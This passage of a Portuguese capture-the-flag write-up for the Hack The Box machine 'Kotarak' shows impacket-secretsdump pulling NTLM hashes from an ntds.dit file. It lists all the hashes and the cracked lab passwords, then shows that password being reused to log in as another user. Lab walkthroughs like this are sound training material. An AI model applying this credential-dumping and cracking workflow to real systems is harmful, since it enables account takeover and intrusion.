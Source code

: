 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at3.png)

## Extraindo senhas com o impacket

Bom, sabendo que temos um arquivo de senhas windows, possivelmente de um sistema windows, devemos procurar por ferramentas que fazem extração de senhas em arquivos de registro e sistema do windows

O `impacket` faz isso, uma de suas ferramentas é o `secrestsdump`

`impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at4.png)

Interessante, apareceu que nessa máquina windows que foi extraido esse arquivo temos o usuário `atanas` e também temos ele na nossa linux

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at5.png)

Aqui estão todos os hashs, vamos dar uma filtrada neles e pesquisar pra ver se conseguimos quebrar alguns deles

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe::: 
```

Filtramos eles

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at6.png)

Encontramos três senhas online

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at7.png)

```
2b576acbe6bcfda7294d6bd18041b8fe:Password123!
31d6cfe0d16ae931b73c59d7e0c089c0:$HEX[0005170001c084]
e64fe0f24ba2489c05e64354d74ebd11:f16tomcat!
```

Verificamos que é a senha do `Administrador` e do `atanas`, mas não temos administrador na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at8.png)

Vamos testar as duas senhas no usuário atanas, a senha que deu certo é a senha do administrador (f16tomcat!)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at9.png)
